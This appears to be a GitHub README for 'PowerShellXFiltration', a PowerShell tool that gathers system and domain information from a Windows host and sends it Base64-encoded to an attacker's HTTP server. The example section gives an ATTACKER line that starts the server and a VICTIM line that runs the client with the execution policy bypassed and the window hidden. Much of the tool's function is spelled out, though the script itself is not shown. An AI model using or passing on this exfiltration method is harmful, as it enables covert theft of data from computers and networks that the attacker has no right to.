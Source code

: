 ## PowerShellXFiltration
A PowerShell script to exfiltrate information of a Windows system via HTTP server

### How it works
1. Runs several PS commands to retrieve information about the local system and the domain if any.
2. Sends the outputs to the webserver as GET parameter (and Base64 encoded)
3. The server logs any action in the current folder (`logs.txt`)
4. Create a directory with the system hostname and put all the exfiltrated info into

### Example

```
ATTACKER> python3 server.py
VICTIM> powershell -ep bypass -windowstyle hidden -File client.ps1
```

